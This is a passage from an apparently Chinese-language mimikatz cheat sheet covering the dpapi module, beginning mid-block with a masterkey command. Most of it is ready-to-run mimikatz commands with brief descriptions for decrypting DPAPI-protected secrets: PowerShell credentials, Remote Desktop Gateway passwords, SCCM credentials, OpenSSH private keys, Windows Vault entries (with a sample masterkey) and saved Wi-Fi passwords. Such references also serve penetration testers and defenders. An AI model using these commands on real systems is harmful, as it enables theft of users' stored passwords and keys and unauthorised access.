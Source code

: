 mimikatz # dpapi::masterkey /in:"%appdata%\Microsoft\Protect\S-1-5-21-1719172562-3308538836-3929312420-1104\cc6eb538-28f1-4ab4-adf2-f5594e88f0b2"
```

## protect

通过DPAPI调用保护数据
```
mimikatz # dpapi::protect /data:"Hello Mimikatz"

mimikatz # dpapi::protect /data:"Hello Mimikatz" /c

mimikatz # dpapi::protect /data:"Hello Mimikatz" /out:dpapi_blob.txt  #输出到文件dpapi_blob.txt
```

## ps
解密PowerShell凭证（PSCredentials或SecureString）。

```
mimikatz # dpapi::ps /in:ps_cred.xml /unprotect
```

## rdg

解密远程桌面网关保存的密码
```
mimikatz # dpapi::rdg /in:test.rdg /unprotect
```

## sccm

用来解密保存的SCCM凭证

```
mimikatz # dpapi::sccm  /unprotect
```


## ssh

提取OpenSSH私钥

```
mimikatz # dpapi::ssh /unprotect
```

## vault

从凭证库中解密DPAPI金库凭证

```
mimikatz # dpapi::vault /cred:"C:\Users\m3g9tr0n\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28\21CD6FA9B5E4C7D1D04AE0182DD7F440F54E02ED.vcrd" /policy:"C:\Users\m3g9tr0n\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28\Policy.vpol" /masterkey:3f7a17dd6658319fcd4b832afc20ac7dacbb9d7cd668527c71f98e90464624634c614a7923a3beb23c4e24dd718f2a8e838ce72935fb29f11507affb543a53c3
```

## wifi

解密保存的Wi-Fi密码

```
mimikatz # dpapi::wifi /in:"C:\ProgramData\Microsoft\Wlansvc\Profiles\Interfaces\{F4257B8E-3599-4A6F-AEA2-B3B7646ECA80}\{25F4C906-099A-4871-826D-8A604C132954}.xml" /unprotect
```

```